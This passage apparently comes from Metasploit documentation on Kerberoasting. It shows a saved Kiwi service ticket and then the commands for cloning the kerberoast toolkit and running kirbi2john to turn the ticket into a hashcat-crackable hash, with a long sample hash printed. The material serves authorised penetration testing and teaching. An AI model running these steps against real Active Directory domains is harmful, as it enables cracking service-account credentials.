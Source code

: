 ```msf
MDAwMA==
====================

   * Saved to file     : 1-40a10000-Administrator@https~TSTWLPT1000000-EXAMPLE.COM.kirbi
```

**Crack Kiwi's Service Tickets**

To crack the service ticket a number of tools can be used. In this example we'll use hashcat. First we need to convert
the ticket we retrieved in the `.kirbi` format to a format parsable by hashcat. The script **kirbi2john** is part of
[Tim Medin](https://twitter.com/TimMedin) [Kerberoast](https://github.com/nidem/kerberoast) toolkit is perfect for
this task.

First clone the repo then run the script against the `.kirbi` file.

```
msfuser@ubuntu:~/git$ git clone https://github.com/nidem/kerberoast.git
msfuser@ubuntu:~/git$ cd kerberoast
msfuser@ubuntu:~/git/kerberoast$ python3 kirbi2john.py ~/1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM.kirbi
$krb5tgs$23$*1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM*$2b5cda0496cdd9cfb11a00a9b03a0d31$76975a9115860927140
3a1808746b35d0e99159553e3c81a9cd32a51e968a4b45ce3fcf08e5eac8d4551df10c9f1bd4572cc273d1bd154fc8fd1228d55cd39a90b64ec3117f
e0a1fb496d1be4042ccb2998d998fa3de8f50bcb04d3bf78e34be07d71310a3be829e24cb75c398847f960aefe9669534df26344beb6e7bbe628b7ac
fa957c4a67417546fc441b84aaee78a0e5256cc9dead287327ac7907af71e02b142027c9061515c72ef03c842d0f73754f9dffa434a26057df4c4434
71cd5bf76260469ea6f1c367a64ea02b01a2b9c2b83979911fc58fa8822c70877b72370078e3d7955fc2ade02acd2a803889a8c3a609f80f9beb45c0
981aba6bdbb208fa6ea2cc91814c8c4dd6e9287f4ef3b9e2b7febe07648c78ec25137e82bee0d99290a33fd3701953bd858fac15c6d1652f11cc75a6
e419cab7dec019e599eda3a76652475968bc2845fa6f02477efaecfd63e58fad817f1976adeda14b2c4c1508a84df1813e05368c3e07c9f656d5730d
848b86c59bf576f4c2505375b7d6934abf8a955b1a71d802026383cbd9005bf12f0664ffc25ebee8aef4b574dd93850d59fc16c5f9881e9b4f957c33
74724e4046c0fa4bc5ff16b9a960b4b6a2ede25bb18c617c2dbcfb3fd34a4cc3ee29fb0f6e6f43722ffc50ceddce55b2be1a53361d13c983980d3191
86c7dbd124a3c8f19560e88d0d858b0f5320738931bf2f32c1e893fbbadb92f7574128f6f36a0acab99023f79d857f15f0920a1a76b3a97e6282d4e6
c5ef30206444bc20da1a7d89d1007a97e75ffb9554cfeaf6757919a635dbdfcfd74d2eec8d5f83f109beb6e653a8c0e787ec039c7bb93d07a60e8bb4
b56d026e809a80e020875a3a382b367f28c0e41714bd5ef97da578956cba12ab1fbcd84a5313d2edc5f7c601c3c56860a347ab013f50e3f8e6167935
9db05e4014db38e21a814fe002ba14d17840aa053bbec3a6aadec31db50827168d24107486d373567c2969215c0decf639bc46b9968e43a79bc6f261
2544feb09908118615035f630e37b03cb04d9725d2085a28543575d91c361bf1b6a61837d6c34c8961df33d1b8b45963bf361d33e0ca2fa37b40e62b
6389ebb0ad4097036f4d6aa4598086313ea79d68f75301d5038783567c2fdcf25e2b459acdc867c64613fe84f3faf1fdb79fc6e05322b2175eec3b2e
84e3a8165f0af265d3ccd994712704516f0c78f76dd7c5c98f8fc8b9db1231f19c259bc7f078a86d4bc6cf06b8c4158dc41f48dd51b146d3fc63d2fd
f057e6644f838a944de0679ab3e8c6290d4d8004bd53570f61323eeb7c910c6546880a508172bf4ee2fa1c87748ec0e2e2f79e03e963affb593f1391
a62fdf2f29b792b1c0e7ece2645381a4284b56ddc525c842589eca39efa0466418c9bfb60df479015f4fac86d38575aad1f29674a12d873f8fc12415
b6ea7b2cb15c9d422f0f904a6af518f12c4e0e362093d8d33a47672973f6d70e80669666f37d6674ef8e2999c92fa38b5de8e266716bb182527bde17
36bcb926a6340ae92f8b338be2fe5fa3a757894679beba5b296fe0cdc11100b9a536264cb5e3cb3c6d0426acaa7dd3928895d32973fab2698d17fff4
f9f1ecd02102f5bbd222b039ca3e30fed4003be6b70b2e492c8ea5eee92439681d6af767547609a87d47b68ba7ca62dbe3e4bf74e081915ab15e4103
```